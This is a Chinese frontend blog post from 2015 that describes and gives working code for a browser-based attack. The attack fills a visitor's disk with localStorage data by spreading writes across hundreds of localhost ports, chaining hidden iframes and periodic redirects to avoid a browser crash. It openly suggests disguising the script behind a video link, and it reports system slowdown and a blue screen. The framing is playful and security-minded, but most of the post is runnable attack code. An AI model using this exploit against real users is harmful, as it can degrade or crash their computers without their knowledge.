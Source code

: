 ```yaml
---
title: '作为一个前端，可以如何机智地弄坏一台电脑？'
---
```


date: 2015-07-06 22:30

## reward: true

有人说，前端的界限就在浏览器那儿。

无论你触发了多少 bug，最多导致浏览器崩溃，对系统影响不到哪去。
这就像二次元各种炫酷的毁灭世界，都不会导致三次元的世界末日。
然而，作为一个前端，我发现是有方式打开次元大门的…

这个实验脑洞较大，动机无聊，但某种意义上反映了一些**安全问题**。
想象一下，有天你在家里上网，吃着火锅还唱着歌，**点开一个链接，电脑突然就蓝屏了**！想想还真有点小激动。

<!-- more -->

### 起因

故事得从 localStorage 说起。

html5 的本地存储，相信大家都不陌生。将数据以二进制文件形式存储到本地，在当前应用得非常广泛。
windows 下的 chrome，localStorage 存储于`C:\Users\xxx\AppData\Local\Google\Chrome\User Data\Default\Local Storage`文件夹中。但如果任由网页无限写文件，对用户硬盘的伤害可想而知，因而浏览器对其做了大小限制。

对于一个域名+端口，PC 侧的上限是 5M-10M 之间，移动侧是则不大于 2.5M。

那么问题就变成：**这样的限制足够保护用户硬盘了吗**？

### 关键

关键的问题在于，这一限制，针对的是一个`域名+端口`。
也就是说，你访问`同一个域名的不同端口`，它们的 localStorage 并无关联，是分开存储的。

我用 node 简单地开启了服务器，这时，用户访问`http://127.0.0.1:1000`到`http://127.0.0.1:1099`这 100 个端口，会请求到同一个页面：`index.html`：

```
var http = require('http');
var fs = require('fs');

//100个端口
for(var port = 1000; port< 1100; port++){
  http.createServer(function (request, response) {
    //请忽略这种循环读文件的方式，只为了简便
    fs.readFile('./index.html', function(err, content){
      if(err) {
      } else {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
      }
    });
  }).listen(port, '127.0.0.1');
}
```

当然，这个 index.html 里涉及了 localStorage 写操作。

```
var s = "";
//慢慢来，别写太大了，好害怕…
for(var i=0; i< 3 * 1024 * 1024; i++){
  s += "0";
}
localStorage.setItem("testData", s);
```

我试着用浏览器分别访问了几个端口，结果是分开存储。一切跟剧本一样。

### 自动遍历

但这种程度还不够。
如果要实验变得更好（xie）玩（e）一些，问题就变成如何`让用户自动遍历这些端口`？

iframe 是个好的尝试。
只要一打开`http://127.0.0.1: 1000`，页面的脚步就会创建一个 iframe，去请求`http://127.0.0.1: 1001`，一直循环下去。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1100; //最大限制
  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      //新添加iframe
      var url = "http://127.0.0.1:" + port;
      var $iframe = document.createElement("iframe");
      $iframe.src = url;
      document.getElementsByTagName("body")[0].appendChild($iframe);
    }
  }
})();
```

当然 iframe 我们还可以设置为不可见，以掩盖这种不厚道的行为…
比方说，有人发给你一个链接，你打开后发现是个视频，而你根本注意不到背后的脚本，在视频播放的几分钟里，快要把你的 C 盘写满。

然后我就看到请求如潮水渐涨：
![](/assets/blogImg/localstorage1.png)

但是，请求到 1081 端口，最新的 chrome 就崩溃掉了…原来 iframe 嵌套太多，已经到达了浏览器的极限。

###防止浏览器崩溃

C 盘还未撑满，同志还需努力。怎么办？

突然想到，到达 iframe 极限之前，我们可以重定向啊。
每访问 50 个端口，就使用`window.location.href`重定向一次，去确保浏览器不崩溃。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1200; //最大限制
  var _jumpSpace = 50; //为避免iframe过多导致浏览器crash，每50个执行跳转

  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      if(port % _jumpSpace == 0){
        //每50个，重定向一次
        window.location.href = url;
      }else{
        //新添加iframe
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
      }
    }
  }
})();
```

事实证明，这种蛮拼的方法的确可行。

至此，只要访问`http://127.0.0.1: 1000`，就会往 Local Storage 文件夹里写入近 500M 无用数据：
![](/assets/blogImg/localstorage3.png)

里面的数据是这样的：
![](/assets/blogImg/localstorage2.png)

### 继续实验的黑科技

算了下我的 C 盘还有空间嘛，那就把端口数量从 100 增长到 200 个。
结果是这样的，到达了 1.17G 大小。
![](/assets/blogImg/localstorage4.png)

在后续的实验中，我就慢慢的把端口数量与存储的数据调大。

电脑也运行得越来越慢。这是为什么呢？

我观察到，有时候执行`localStorage.setItem()`后，在文件夹里不一定立即能看到数据文件。
怀疑这些数据会被 chrome 先放到内存里，以避免重复读写带来的消耗，在空闲或关闭的时机，再写进硬盘里。

但此时，浏览器已经影响到系统了。它处于一种“不会崩溃”，但“因为占用了许多内存，已经妨碍用户电脑的正常使用”的状态。
即使用户关闭了浏览器窗口，也不会很快恢复。要知道读写任务并不是随窗口关闭而终止的，否则浏览器会丢失数据。

遭遇黑科技的人们能做的只有：

1. 等待；
2. 用任务管理器关掉 chrome 进程，再等待；
3. 相信并尝试“重启电脑解决 90%电脑问题”的科学论断

可以说，浏览器的内心几乎是崩溃的。

### 最后

最后，还是得用严肃脸告诫一下：害人之心不可无。
本实验，从一开始就是怀揣着将`安全问题上交给国家的初衷`去做的（是的就是这么纯粹）。

后续，看着 C 盘还有 2G 空间，我又把端口增长到 2000 个，试下会发生什么。
由于请求过多，需要一定时间，我就去做别的事情了。
回来后发现房间安静祥和，美轮美奂，一片蓝光，像是加了特技。

![](/assets/blogImg/localstorage5.png)

那么问题来了，计算机修理哪家强？
有点急…
